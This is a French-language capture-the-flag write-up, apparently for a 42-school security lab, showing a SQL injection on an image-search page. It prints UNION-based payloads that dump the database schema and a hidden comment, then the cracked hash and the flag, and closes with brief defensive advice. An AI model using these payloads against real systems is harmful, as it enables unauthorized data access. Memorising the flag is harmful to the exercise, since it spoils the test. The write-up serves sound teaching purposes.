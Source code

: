 # Injection SQL SEARCH IMAGE

Dans l'onglet SEARCH IMAGE : http://IP/?page=searchimg

L'injection SQL est une méthodes d'exploitation de faille de sécurité d'une application interagissant avec une base de données. Elle permet d'injecter dans la requête SQL en cours un morceau de requête non prévu par le système et pouvant en compromettre la sécurité.

En tapant la commande SQL : `1 OR true`

Nous pouvons voir toutes les **listes_images** créé :

| Title            | URL                                             |
|------------------|-------------------------------------------------|
| Nsa              | https://fr.wikipedia.org/wiki/Programme_        |
| 42 !             | https://fr.wikipedia.org/wiki/Fichier:42        |
| Google           | https://fr.wikipedia.org/wiki/Logo_de_Go        |
| Earth            | https://en.wikipedia.org/wiki/Earth#/med        |
| Hack me ?        | borntosec.ddns.net/images.png                   |


Nous allons faire la commande SQL suivantes pour afficher toutes les tables et colonnes associé :`1 UNION SELECT table_name, column_name FROM information_schema.columns`

On va s'intéresser à la table **list_images** :

**LIST_IMAGES**(*id, url, title, comment*)

Nous allons afficher les valeurs de title et comment grâce à la commande SQL : `1 UNION SELECT comment, title FROM list_images`

Ce qui nous donne les valeurs suivantes :

```
Title: Hack me ?
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

Si on déchiffre le code `1928e8083cf461a51303633093573c46` en **MD5** on obtient albatroz, et si on le chiffre en **SHA256** on obtient : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


### Comment protéger vos bases de données d’une injection SQL

- Vérifier la saisie utilisateur, les données remises devraient toujours être en accord avec le type de données attendu.
- Échapper les caractères spéciaux à l’aide de mysqli_real_escape_string() ou autres fonctions.
- Préférer l’utilisation de comptes utilisateurs à accès limité pour empêcher la modification ou suppression d’éléments de la base de données.
